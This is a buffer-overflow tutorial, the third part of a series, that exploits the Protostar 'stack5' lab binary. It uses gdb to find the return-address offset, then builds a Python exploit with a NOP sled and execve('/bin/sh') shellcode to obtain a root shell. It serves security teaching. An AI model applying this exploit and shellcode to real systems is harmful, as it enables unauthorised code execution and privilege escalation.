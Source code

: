 ## What is a Buffer Overflow and How Hackers Exploit these Flaws part 3

In our [previous article](https://github.com/neoslab/tutorials/blob/master/articles/5afb15034ccc33d4750897090b47a57e.md) we have seen how to change variables or either execute functions which should not be done through a **stack buffer overflow** including few others things. But imagine the case where there is none of this! How we can successfully execute what we want?

Well, the solution is simple! We will use **Shellcodes**. In hacking, a Shellcode is a small piece of code used as the payload in the exploitation of a vulnerability. It is called "Shellcode" because it typically starts a command shell from which the attacker can control the compromised machine.

**Source:** [wikipedia.org](https://en.wikipedia.org/wiki/Shellcode)

###### HOW TO EXECUTE OUR SHELLCODE?

You remember by rewriting `saved rip`, we could redirect our execution flow anywhere in the memory. If we want to use a Shellcode, the principle is the same except we will redirect the flow to our Shellcode to be able to execute it. The main question is where to put our Shellcode? Well if you remember what we have seen previously, the Shellcode can be put on the stack or in an environment variable.

**Placing a Shellcode in the buffer**

```
[[shellcode][padding]][saved ebp][saved eip -> the address to our shellcode]
```

**Placing a Shellcode behind eip**

```
[buffer (padding)][saved ebp][saved eip -> the address of the nop][nop * large number][shellcode]
```

What is `nop`? Do you remember our [first article](https://github.com/neoslab/tutorials/blob/master/articles/12089bda5ec9cb38858eb2184ceaa179.md). If you already forgot, I kindly suggest you have a look at what we already have seen during our first approach. To cut short, "nop = No Operation", which concretely means to don't do anything and simply move to the next instruction.

How useful is this, you would say? This allows us to have the addresses that go right to the following instructions and finally to the Shellcode, so we no longer have to take the precise address of our Shellcode but just an address in our `nop`.

* * *

###### EXAMPLE OF EXPLOITATION

It's now the time to move on the concrete aspect of the exploitation and to do this we will use the challenge "stack5" from the [Exploit-Education](https://exploit.education/protostar/) website which contains several exercises regarding binary exploitation. Here is the code that we will use:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

**How and where to Get Started?**

In the above source code, we can see a buffer of 64-bytes is created and the function `gets()` is called. What we must do is overflow the buffer by rewriting the return address pointing to our Shellcode. Suppose we do not have the source code, we are going to disassemble `main` using `gdb`. This will allow us among other things to find the address of the buffer where our Shellcode will be placed.

```bash
cd /opt/protostar/bin
gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-1.png "Image-1")

Now we are going to put a breakpoint into the `main()` function to stop the execution of the program and examine what is on the stack.

```bash
(gdb) b * 0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
```

Through `r` and `i r ` for "info registers" we can get a complete overview and analyze the registers. So let's run it and check what we get.

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-2.png "Image-2")

The `eax` value must contain the string that we have entered "ABCDEF" and therefore the beginning of the buffer is `0xbffffc70`.

```bash
(gdb) x/s 0xbffffc70
0xbffffc70:     "ABCDEF"
```

Since the stack `esp` register points to `0xbffffcbc` then we can calculate the length of our padding using the following command:

```bash
(gdb) p/d 0xbffffcbc - 0xbffffc70
$1 = 76
```

We can determinate that our filler length is equal to 76 and since we got it, we can overwrite the return address. In order to do it, open a new terminal and execute the following python command in order to get the complete string:

```bash
python -c "print 'A' * 76 + 'B' * 4"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Copy the complete string in your clipboard and back the terminal where your instance of `gdb` is running and past the string after executing the `r` command as per the following:

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
```

Once you are done, simply execute the following command to check if the value of your stack `esp` register has been updated:

```bash
(gdb) x/s 0xbffffcbc
0xbffffcbc:      "BBBB"
```

As you can see the content of `0xbffffcbc` is now "BBBB", so we can already handle the return address. The return address should be "0xbffffcbc + 4" which is equal to `0xbffffcc0`. If you want to be sure that address is already present in the stack simply execute the following command in the terminal that running your `gdb` instance:

```bash
(gdb) x/60wx $eax
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-3.png "Image-3")

Now we are going to create an exploit to verify that we will be able to execute arbitrary code, for this we will use the `Interrupt 3` instruction in order to stop the execution of the program and create a breakpoint.

```bash
cat >> /tmp/exploit.py << EOL
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20 # NOPs
shellcode="\xCC"*4
print padding+ret+nops+shellcode
EOL

python /tmp/exploit.py > /tmp/file
cd /opt/protostar/bin/
./stack5 < /tmp/file
```

**Output**

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-4.png "Image-4")

We see that it works, now we are going to try to execute a shell `/bin/sh` as root. We can generate the Shellcode using **msfvenom** or search for one that works in our situation on [Shell Storm](http://shell-storm.org/shellcode/) website. To make it easier for you, I already selected a Shellcode that you can use in this situation and which can be found [here](http://shell-storm.org/shellcode/files/shellcode-811.php). So considering all of this our final payload will be:

```
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20
shellcode = ""
shellcode += "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+ret+nops+shellcode
```

The final step will be to save the above piece of code in a file that I will personally name "exploit.py" and execute it using the below command:

```bash
(python /tmp/exploit.py;cat) | ./stack5
```

**Output**

![image-5](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-5.png "Image-5")

We can now execute commands as root on the system. As I said before, these challenges are an introduction, nowadays binaries have protection, such as NX for Linux or DEP for Windows, which makes some memory areas (usually the stack) not executable. However, understand theses principles is a good start if you want to involve deeper into the **Buffer Overflow**.

For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

[![video-1](https://i3.ytimg.com/vi/w4wNgTnWqdQ/maxresdefault.jpg)](https://www.youtube.com/watch?v=w4wNgTnWqdQ)

